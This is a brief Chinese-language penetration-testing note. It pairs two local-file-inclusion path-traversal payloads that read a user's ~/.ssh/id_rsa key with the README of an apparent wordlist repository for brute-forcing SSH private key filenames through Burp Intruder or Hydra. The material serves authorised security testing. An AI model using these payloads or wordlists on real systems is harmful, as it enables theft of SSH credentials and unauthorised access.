 
## 横向运动的LFI ?获得SSH访问权限?

```
?file=../../../../../../../../home/user/.ssh/id_rsa
?file=../../../../../../../../home/user/.ssh/id_rsa-cert
```


# SSH私钥名称字典表 | SSH Private Key Looting Wordlists 🔒🗝️
SSH
此存储库包含一组单词列表，以帮助查找或暴力强制SSH私钥文件名。这些单词列表对于渗透测试人员、安全研究人员和任何对评估SSH配置的安全性感兴趣的人都很有用。

[![GitHub Release](https://img.shields.io/github/release/PinoyWH1Z/SSH-Private-Key-Looting-Wordlists.svg?style=flat-square)](https://github.com/PinoyWH1Z/SSH-Private-Key-Looting-Wordlists/releases)
[![GitHub License](https://img.shields.io/github/license/PinoyWH1Z/SSH-Private-Key-Looting-Wordlists.svg?style=flat-square)](https://github.com/PinoyWH1Z/SSH-Private-Key-Looting-Wordlists/blob/master/LICENSE)

## 单词列表文件 📝

- **ssh-priv-key-loot-common.txt**: SSH 私钥文件的默认和常见命名约定。
- **ssh-priv-key-loot-medium.txt**:没有备份文件扩展名的可能文件名。
- **ssh-priv-key-loot-extended.txt**: 带有备份文件扩展名的可能文件名。
- **ssh-priv-key-loot-\*_w_gui.txt**: 包含在具有 GUI 的服务器上模拟 Ctrl+C 和 Ctrl+V 的文件名。

## 用法 🚀

这些单词列表可以与 Burp Intruder、Hydra、自定义 python 脚本或任何其他支持自定义单词列表的暴力破解工具一起使用。当针对 SSH 私钥文件时，它们可以帮助扩大暴力破解或枚举工作的范围。

## 致谢 🙏

这个[词表库](https://github.com/PinoyWH1Z/SSH-Private-Key-Looting-Wordlists)的灵感来自约翰·哈蒙德的视频博客 "[Don't Forget This One Hacking Trick.](https://www.youtube.com/watch?v=2rqb3YSa1SE)" 



## 免责声明 ⚠️

请负责任地使用这些词表，并且仅在您被授权测试的系统上使用。未经授权使用是非法的。
